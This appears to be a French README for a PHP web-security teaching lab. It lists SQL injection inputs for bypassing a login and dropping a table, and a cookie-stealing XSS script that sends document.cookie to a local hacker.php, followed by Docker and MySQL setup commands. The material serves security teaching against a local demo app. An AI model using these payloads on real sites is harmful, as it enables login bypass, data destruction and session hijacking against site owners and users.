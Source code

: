 sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost/php-security/xss/hacker.php?cookie='+escape(document.cookie)</script>



sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1.


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost:81/xss/hacker.php?cookie='+escape(document.cookie)</script>


------------------------------------------------
#clonner le projet
git clone https://github.com/achrafnh/php-secu.git
cd php-secu

#lancer le projet
docker-compose up -d 

#verivier que les containers snt creer 

docker ps 

#acceder a mysql en CLI 

docker exec -it mysql bash 

# pour se connecter la base le user et le password et sur .env  
mysql -u root -p
show databses;
use dbtest;
show tables;



pour arrete le projet 

docker-compose down

#ou cas ou le projet et deja cloner 
git pull
